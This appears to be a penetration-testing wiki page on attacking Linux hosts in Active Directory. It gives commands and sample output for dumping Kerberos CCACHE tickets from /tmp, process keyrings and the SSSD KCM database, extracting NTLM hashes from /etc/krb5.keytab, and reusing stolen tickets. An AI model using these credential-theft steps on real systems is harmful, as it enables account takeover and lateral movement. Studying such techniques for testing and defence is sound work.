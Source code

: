# Linux Active Directory

## Theory

A linux machine can also be present inside an Active Directory environment.

A linux machine in an AD might be **storing different CCACHE tickets inside files. This tickets can be used and abused as any other kerberos ticket**. In order to read this tickets you will need to be the user owner of the ticket or **root** inside the machine.

## Practice

{% hint style="info" %}
**Tip: convert ticket to UNIX <-> Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Tools

{% tabs %}
{% tab title="Linkatz" %}
[linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool to attack AD on UNIX. It allow you to dump credentials and kerberos cached tickets.

```bash
linikatz.sh
```
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from /tmp

{% tabs %}
{% tab title="Reuse tickets" %}
When tickets are set to be stored as a file on disk, the standard format and type is a CCACHE file. This is a simple binary file format to store Kerberos credentials. These files are typically stored in /tmp and scoped with 600 permissions

List the current ticket used for authentication with `env | grep KRB5CCNAME`. The format is portable and the ticket can be **reused by setting the environment variable** with `export KRB5CCNAME=/tmp/ticket.ccache`. Kerberos ticket name format is `krb5cc_%{uid}` where uid is the user UID.

```bash
ls /tmp/ | grep krb5cc
krb5cc_1000
krb5cc_1569901113
krb5cc_1569901115

export KRB5CCNAME=/tmp/krb5cc_1569901115
```

{% hint style="info" %}
You may use the ticket using [Pass The Ticket ](../../ad/movement/kerberos/ptt.md)techniques
{% endhint %}
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from keyring

{% tabs %}
{% tab title="Reuse tickets" %}
Processes may **store kerberos tickets inside their memory**, the [tickey](https://github.com/TarlogicSecurity/tickey) tool can be useful to extract those tickets&#x20;

{% hint style="info" %}
ptrace protection should be disabled in the machine `/proc/sys/kernel/yama/ptrace_scope = 0`&#x20;
{% endhint %}

```bash
# Configuration and build
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release

[root@Lab-LSV01 /]# /tmp/tickey -i
[*] krb5 ccache_name = KEYRING:session:sess_%{uid}
[+] root detected, so... DUMP ALL THE TICKETS!!
[*] Trying to inject in tarlogic[1000] session...
[+] Successful injection at process 25723 of tarlogic[1000],look for tickets in /tmp/__krb_1000.ccache
[*] Trying to inject in velociraptor[1120601115] session...
[+] Successful injection at process 25794 of velociraptor[1120601115],look for tickets in /tmp/__krb_1120601115.ccache
[*] Trying to inject in trex[1120601113] session...
[+] Successful injection at process 25820 of trex[1120601113],look for tickets in /tmp/__krb_1120601113.ccache
[X] [uid:0] Error retrieving tickets
```
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from SSSD KCM (Kerberos Cache Manager)

{% tabs %}
{% tab title="Reuse tickets" %}
SSSD maintains a copy of the database at the path `/var/lib/sss/secrets/secrets.ldb`. The corresponding key is stored as a hidden file at the path `/var/lib/sss/secrets/.secrets.mkey`. By default, the key is only readable if you have **root** permissions.

Invoking [SSSDKCMExtractor](https://github.com/mandiant/SSSDKCMExtractor)  with the --database and --key parameters will parse the database and **decrypt the secrets**.

```bash
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
{% endtab %}
{% endtabs %}

### Extract accounts from /etc/krb5.keytab

The service keys used by services that run as root are usually stored in the keytab file **`/etc/krb5.keytab`**. This service key is the equivalent of the service's password, and must be kept secure.

{% tabs %}
{% tab title="Unix-Like" %}
On Linux you can use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract). We want RC4 HMAC hash to reuse the NLTM hash.

```
python3 keytabextract.py krb5.keytab 
[!] No RC4-HMAC located. Unable to extract NTLM hashes. # No luck
[+] Keytab File successfully imported.
        REALM : DOMAIN
        SERVICE PRINCIPAL : host/computer.domain
        NTLM HASH : 31d6cfe0d16ae931b73c59d7e0c089c0 # Lucky
```
{% endtab %}

{% tab title="Windows" %}
Use [klist](https://adoptopenjdk.net/?variant=openjdk13\&jvmVariant=hotspot) to read the keytab file and parse its content. The key that you see when the [key type](https://cwiki.apache.org/confluence/display/DIRxPMGT/Kerberos+EncryptionKey) is 23 is the actual **NT Hash of the user**.

```bash
klist.exe -t -K -e -k FILE:C:\Users\User\downloads\krb5.keytab
[...]
[26] Service principal: host/COMPUTER@DOMAIN
	 KVNO: 25
	 Key type: 23
	 Key: 31d6cfe0d16ae931b73c59d7e0c089c0
	 Time stamp: Oct 07,  2019 09:12:02
[...]
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory" %}
